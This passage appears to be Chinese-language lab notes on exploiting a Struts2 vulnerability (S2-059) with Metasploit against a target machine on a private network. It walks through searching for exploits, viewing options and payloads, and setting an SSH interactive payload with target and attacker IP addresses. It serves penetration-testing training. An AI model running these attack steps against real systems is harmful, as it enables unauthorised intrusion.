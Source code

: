 搜索漏洞相关信息
`search struts2 type:exploit
search S2-059 type:exploit`

使用`info id`查看相关漏洞信息

使用`use id`可以指定exp

![alt text](images2/image-15.png)

使用`show options`能够看见一些参数的配置

![alt text](images2/image-16.png)

使用`show payloads`能够查看可以使用的payload，一共是74条

![alt text](images2/image-19.png)

选取一个payload并根据本地环境构造一个攻击payload(在后续重新启动msf时候，这个payload使用不了，需要重新设置，选择新的payload)

```python

set payload payload/generic/ssh/interact  #设置payload
set RHOSTS 192.168.249.5  #靶机IP
set RPORT  58251    #靶机目标端口  
set LHOST  192.168.249.8   #攻击者主机IP 

```
